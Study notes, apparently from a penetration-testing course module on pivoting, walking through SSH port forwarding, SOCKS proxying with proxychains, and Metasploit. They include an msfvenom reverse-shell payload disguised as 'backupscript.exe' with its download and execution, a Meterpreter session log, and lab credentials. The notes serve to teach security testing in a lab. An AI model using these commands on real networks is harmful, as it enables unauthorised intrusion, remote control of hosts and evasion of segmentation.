

During a `red team engagement`, `penetration test`, or an `Active Directory assessment`, we will often find ourselves in a situation where we might have already compromised the required `credentials`, `ssh keys`, `hashes`, or `access tokens` to move onto another host, but there may be no other host directly reachable from our attack host. In such cases, we may need to use a `pivot host` that we have already compromised to find a way to our next target.

>[!Important]
>One of the most important things to do when landing on a host for the first time is to check our `privilege level`, `network connections`, and potential `VPN or other remote access software`.

If a host has more than one network adapter, we can likely use it to move to a different network segment. Pivoting is essentially the idea of `moving to other networks through a compromised host to find more targets on different network segments`.

There are many different terms used to describe a compromised host that we can use to `pivot` to a previously unreachable network segment. Some of the most common are:

- `Pivot Host`
- `Proxy`
- `Foothold`
- `Beach Head system`
- `Jump Host`

>[!Information]
>Pivoting's primary use is to defeat segmentation (both physically and virtually) to access an isolated network. `Tunneling`, on the other hand, is a subset of pivoting. Tunneling encapsulates network traffic into another protocol and routes traffic through it.
## Lateral Movement, Pivoting, and Tunneling Compared

#### Lateral Movement

Lateral movement can be described as a technique used to further our access to additional `hosts`, `applications`, and `services` within a network environment. Lateral movement can also help us gain access to specific domain resources we may need to elevate our privileges. Lateral Movement often enables privilege escalation across hosts.

One practical example of `Lateral Movement` would be:

During an assessment, we gained initial access to the target environment and were able to gain control of the local administrator account. We performed a network scan and found three more Windows hosts in the network. We attempted to use the same local administrator credentials, and one of those devices shared the same administrator account. We used the credentials to move laterally to that other device, enabling us to compromise the domain further.
#### Pivoting

Utilizing multiple hosts to cross `network` boundaries you would not usually have access to. This is more of a targeted objective. The goal here is to allow us to move deeper into a network by compromising targeted hosts or infrastructure.

One practical example of `Pivoting` would be:

During one tricky engagement, the target had their network physically and logically separated. This separation made it difficult for us to move around and complete our objectives. We had to search the network and compromise a host that turned out to be the engineering workstation used to maintain and monitor equipment in the operational environment, submit reports, and perform other administrative duties in the enterprise environment. That host turned out to be dual-homed (having more than one physical NIC connected to different networks). Without it having access to both enterprise and operational networks, we would not have been able to pivot as we needed to complete our assessment.
#### Tunneling

We often find ourselves using various protocols to shuttle traffic in/out of a network where there is a chance of our traffic being detected. For example, using HTTP to mask our Command & Control traffic from a server we own to the victim host. The key here is obfuscation of our actions to avoid detection for as long as possible. We utilize protocols with enhanced security measures such as HTTPS over TLS or SSH over other transport protocols. These types of actions also enable tactics like the exfiltration of data out of a target network or the delivery of more payloads and instructions into the network.

One practical example of `Tunneling` would be:

One way we used Tunneling was to craft our traffic to hide in HTTP and HTTPS. This is a common way we maintained Command and Control (C2) of the hosts we had compromised within a network. We masked our instructions inside GET and POST requests that appeared as normal traffic and, to the untrained eye, would look like a web request or response to any old website. If the packet were formed properly, it would be forwarded to our Control server. If it were not, it would be redirected to another website, potentially throwing off the defender checking it out.
# The Networking Behind Pivoting
## IP Addressing & NICs

Every computer that is communicating on a network needs an IP address. If it doesn't have one, it is not on a network. The IP address is assigned in software and usually obtained automatically from a DHCP server. It is also common to see computers with statically assigned IP addresses. Static IP assignment is common with:

- Servers
- Routers
- Switch virtual interfaces
- Printers
- And any devices that are providing critical services to the network

Whether assigned `dynamically` or `statically`, the IP address is assigned to a `Network Interface Controller` (`NIC`). Commonly, the NIC is referred to as a `Network Interface Card` or `Network Adapter`. A computer can have multiple NICs (physical and virtual), meaning it can have multiple IP addresses assigned, allowing it to communicate on various networks. Identifying pivoting opportunities will often depend on the specific IPs assigned to the hosts we compromise because they can indicate the networks compromised hosts can reach. This is why it is important for us to always check for additional NICs using commands like `ifconfig` (in macOS and Linux) and `ipconfig` (in Windows).
## Routing

It is common to think of a network appliance that connects us to the Internet when thinking about a router, but technically any computer can become a router and participate in routing. Some of the challenges we will face in this module require us to make a pivot host route traffic to another network. One way we will see this is through the use of AutoRoute, which allows our attack box to have `routes` to target networks that are reachable through a pivot host. One key defining characteristic of a router is that it has a routing table that it uses to forward traffic based on the destination IP address.

```shell
netstat -r

Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         178.62.64.1     0.0.0.0         UG        0 0          0 eth0
10.10.10.0      10.10.14.1      255.255.254.0   UG        0 0          0 tun0
10.10.14.0      0.0.0.0         255.255.254.0   U         0 0          0 tun0
10.106.0.0      0.0.0.0         255.255.240.0   U         0 0          0 eth1
10.129.0.0      10.10.14.1      255.255.0.0     UG        0 0          0 tun0
178.62.64.0     0.0.0.0         255.255.192.0   U         0 0          0 eth0
```

Any traffic destined for networks not present in the routing table will be sent to the `default route`, which can also be referred to as the default gateway or gateway of last resort. When looking for opportunities to pivot, it can be helpful to look at the hosts' routing table to identify which networks we may be able to reach or which routes we may need to add.
## Protocols, Services & Ports

`Protocols` are the rules that govern network communications. Many protocols and services have corresponding `ports` that act as identifiers.
# Dynamic Port Forwarding with SSH and SOCKS Tunneling
## Port Forwarding in Context

`Port forwarding` is a technique that allows us to redirect a communication request from one port to another. Port forwarding uses TCP as the primary communication layer to provide interactive communication for the forwarded port. However, different application layer protocols such as SSH or even [SOCKS](https://en.wikipedia.org/wiki/SOCKS) (non-application layer) can be used to encapsulate the forwarded traffic. This can be effective in bypassing firewalls and using existing services on your compromised host to pivot to other networks.
### Example

#### Scanning the Pivot Target

 ```shell
 nmap -sT -p22,3306 10.129.202.64

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:12 EST
Nmap scan report for 10.129.202.64
Host is up (0.12s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
3306/tcp closed mysql
 ```

The Nmap output shows that the SSH port is open. To access the MySQL service, we can either SSH into the server and access MySQL from inside the Ubuntu server, or we can port forward it to our localhost on port `1234` and access it locally.
#### Executing the Local Port Forward

```shell
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

The `-L` command tells the SSH client to request the SSH server to forward all the data we send via the port `1234` to `localhost:3306` on the Ubuntu server. By doing this, we should be able to access the MySQL service locally on port 1234. We can use Netstat or Nmap to query our local host on 1234 port to verify whether the MySQL service was forwarded.
#### Confirming Port Forward with Netstat

```shell
netstat -antp | grep 1234
```
#### Confirming Port Forward with Nmap

```shell
nmap -v -sV -p1234 localhost
---
PORT STATE SERVICE VERSION 
1234/tcp open mysql MySQL 8.0.28-0ubuntu0.20.04.3
```

Similarly, if we want to forward multiple ports from the Ubuntu server to your localhost, you can do so by including the `local port:server:port` argument to your ssh command. For example, the below command forwards the apache web server's port 80 to your attack host's local port on `8080`.
#### Forwarding Multiple Ports

```shell
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```
## Setting up to Pivot

Now, if you type `ifconfig` on the Ubuntu host, you will find that this server has multiple NICs:

- One connected to our attack host (`ens192`)
- One communicating to other hosts within a different network (`ens224`)
- The loopback interface (`lo`).
#### Looking for Opportunities to Pivot using ifconfig

```shell
ifconfig

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.202.64  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:52eb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:52eb  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:52:eb  txqueuelen 1000  (Ethernet)
        RX packets 35571  bytes 177919049 (177.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10452  bytes 1474767 (1.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb9:a9aa  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a9:aa  txqueuelen 1000  (Ethernet)
        RX packets 8251  bytes 1125190 (1.1 MB)
        RX errors 0  dropped 40  overruns 0  frame 0
        TX packets 1538  bytes 123584 (123.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 270  bytes 22432 (22.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 270  bytes 22432 (22.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Unlike the previous scenario where we knew which port to access, in our current scenario, we don't know which services lie on the other side of the network. So, we can scan smaller ranges of IPs on the network (`172.16.5.1-200`) or the entire subnet (`172.16.5.0/23`). We cannot perform this scan directly from our attack host because it does not have routes to the `172.16.5.0/23` network. To do this, we will have to perform `dynamic port forwarding` and `pivot` our network packets via the Ubuntu server. We can do this by starting a `SOCKS listener` on our `local host` (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network (172.16.5.0/23) after connecting to the target host.

This is called `SSH tunneling` over `SOCKS proxy`. SOCKS stands for `Socket Secure`, a protocol that helps communicate with servers where you have firewall restrictions in place. Unlike most cases where you would initiate a connection to connect to a service, in the case of SOCKS, the initial traffic is generated by a SOCKS client, which connects to the SOCKS server controlled by the user who wants to access a service on the client-side. Once the connection is established, network traffic can be routed through the SOCKS server on behalf of the connected client.

This technique is often used to circumvent the restrictions put in place by firewalls, and allow an external entity to bypass the firewall and access a service within the firewalled environment. One more benefit of using SOCKS proxy for pivoting and forwarding data is that SOCKS proxies can pivot via creating a route to an external server from `NAT networks`. SOCKS proxies are currently of two types: `SOCKS4` and `SOCKS5`. SOCKS4 doesn't provide any authentication and UDP support, whereas SOCKS5 does provide that. Let's take an example of the below image where we have a NAT'd network of 172.16.5.0/23, which we cannot access directly.


In the above image, the attack host starts the SSH client and requests the SSH server to allow it to send some TCP data over the ssh socket. The SSH server responds with an acknowledgment, and the SSH client then starts listening on `localhost:9050`. Whatever data you send here will be broadcasted to the entire network (172.16.5.0/23) over SSH. We can use the below command to perform this dynamic port forwarding.
#### Enabling Dynamic Port Forwarding with SSH

```shell
ssh -D 9050 ubuntu@10.129.202.64
```

The `-D` argument requests the SSH server to enable dynamic port forwarding. Once we have this enabled, we will require a tool that can route any tool's packets over the port `9050`. We can do this using the tool `proxychains`, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows us to chain multiple proxy servers together. Using proxychains, we can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host. Proxychains is often used to force an application's `TCP traffic` to go through hosted proxies like `SOCKS4`/`SOCKS5`, `TOR`, or `HTTP`/`HTTPS` proxies.

>[!Important]
>To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.
#### Checking /etc/proxychains.conf

```shell
tail -4 /etc/proxychains.conf
---
# meanwile 
# defaults set to "tor" 
socks4 127.0.0.1 9050
```

Now when you start Nmap with proxychains using the below command, it will route all the packets of Nmap to the local port 9050, where our SSH client is listening, which will forward all the packets over SSH to the 172.16.5.0/23 network.
#### Using Nmap with Proxychains

```shell
proxychains nmap -v -sn 172.16.5.1-200
```

>[!Important]
>En teoría puedes anteponer `proxychains` a cualquier programa que haga conexiones TCP vía las funciones estándar de sockets (`connect()`), porque así es como lo intercepta — no es un router de verdad, es una librería que se inyecta en el proceso y reescribe sus llamadas de red.
#### Enumerating the Windows Target through Proxychains

```shell
proxychains nmap -v -Pn -sT 172.16.5.19

Discovered open port 445/tcp on 172.16.5.19
Discovered open port 135/tcp on 172.16.5.19
Discovered open port 3389/tcp on 172.16.5.19
Discovered open port 139/tcp on 172.16.5.19
```

The Nmap scan shows several open ports, one of which is `RDP port` (3389). Similar to the Nmap scan, we can also pivot `msfconsole` via proxychains to perform vulnerable RDP scans using Metasploit auxiliary modules. We can start msfconsole with proxychains.
## Using Metasploit with Proxychains

We can also open Metasploit using proxychains and send all associated traffic through the proxy we have established.

```shell
proxychains msfconsole
```

Let's use the `rdp_scanner` auxiliary module to check if the host on the internal network is listening on 3389.
#### Using rdp_scanner Module

```shell
search rdp_scanner
→ auxiliary/scanner/rdp/rdp_scanner

use 0
set rhosts 172.16.5.19
run

[*] 172.16.5.19:3389 - Detected RDP on 172.16.5.19:3389
    (name:DC01) (domain:DC01) (domain_fqdn:DC01) (server_fqdn:DC01)
    (os_version:10.0.17763) (Requires NLA: No)
```
#### Using xfreerdp with Proxychains

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

The xfreerdp command will require an RDP certificate to be accepted before successfully establishing the session. After accepting it, we should have an RDP session, pivoting via the Ubuntu server.
## Exercise

>[!Example] Exercise
>SSH to 10.129.202.64 (ACADEMY-PIVOTING-LINUXPIV), with user "ubuntu" and password "HTB_@cademy_stdnt!"
### You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

```shell
ifconfig
--- 3 interfaces

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.202.64  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:fe8a:3253  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe8a:3253  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:32:53  txqueuelen 1000  (Ethernet)
        RX packets 1688  bytes 112439 (112.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 222  bytes 21000 (21.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:fe8a:e2c0  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:e2:c0  txqueuelen 1000  (Ethernet)
        RX packets 197  bytes 15432 (15.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 147  bytes 10288 (10.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 579  bytes 45069 (45.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 579  bytes 45069 (45.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```
### Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

```shell
ssh -D 1234 ubuntu@10.129.202.64 # Ileft this session in the background

sudo nano /etc/proxychains.conf

proxychains nmap 172.16.5.19 -p3389 -sT -v

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

---

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'
```



>[!Note]
>IMAGE: Spawning RDP session from my attack host `10.10.14.81` to Windows machine `172.16.5.19` through pivote `10.129.202.64 | 172.16.5.129`
# Remote/Reverse Port Forwarding with SSH

`But what happens if we try to gain a reverse shell?`

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`. To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.
#### Creating a Windows Payload with msfvenom

```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
#### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler
```

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.
#### Transferring Payload to Pivot Host

```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.
#### Starting Python3 Webserver on Pivot Host

```shell
python3 -m http.server 8123
```
#### Downloading Payload on the Windows Target

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

```shell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
#### Using SSH -R

```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.
#### Viewing the Logs from the Pivot

```shell
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.
#### Meterpreter Session Established

```shell
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

The below graphical representation provides an alternative way to understand this technique.


In addition to answering the challenge questions, practice this technique and try to obtain a reverse shell from the Windows target.
# Meterpreter Tunneling & Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port `8080`.

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.
#### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080
```
We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.
#### Executing the Payload on the Pivot Host
